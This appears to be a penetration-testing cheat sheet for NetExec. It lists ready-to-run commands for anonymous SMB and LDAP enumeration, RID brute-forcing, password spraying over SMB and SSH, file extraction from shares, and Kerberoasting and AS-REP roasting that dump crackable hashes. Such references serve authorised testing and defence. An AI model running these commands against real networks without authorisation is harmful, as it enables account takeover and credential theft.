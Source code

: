 ### **List Shares**  
```
netexec smb target -u '' -p '' --shares
netexec smb target -u username -p password --shares
```
### **List Usernames**  
```
netexec smb target -u '' -p '' --users
netexec smb target -u '' -p '' --rid-brute
netexec smb target -u username -p password --users
```
### **Spraying**   
```
netexec smb target -u users.txt -p password --continue-on-success
netexec smb target -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
```
```
netexec ssh target -u username -p password --continue-on-success
```
## **Service-Specific**  
### **SMB**  
#### **All-in-One**  
```
netexec smb target -u username -p password --groups --local-groups --loggedon-users --rid-brute --sessions --users --shares --pass-pol
```
#### **Extracting Files**  
```
netexec smb target -u username -p password -k --get-file target_file output_file --share sharename
```
#### **Spider_plus Module**  
```
netexec smb target -u username -p password -M spider_plus
netexec smb target -u username -p password -M spider_plus -o READ_ONLY=false
```
#### **Generate Hosts File**
```
netexec smb target --generate-hosts-file <out_file>
```
#### **Generate krb5 File**
```
netexec smb target -u username -p password --generate-krb5-file <out_file>
```
### **LDAP**  
#### **User Enumeration**  
```
netexec ldap target -u '' -p '' --users
```
#### **All-in-One**  
```
netexec ldap target -u username -p password --trusted-for-delegation --password-not-required --admin-count --users --groups
```
#### **Kerberoasting & ASREProast**  
```
netexec ldap target -u username -p password --kerberoasting hash.txt
netexec ldap target -u username -p password --asreproast hash.txt
```
#### **BloodHound**  
```
```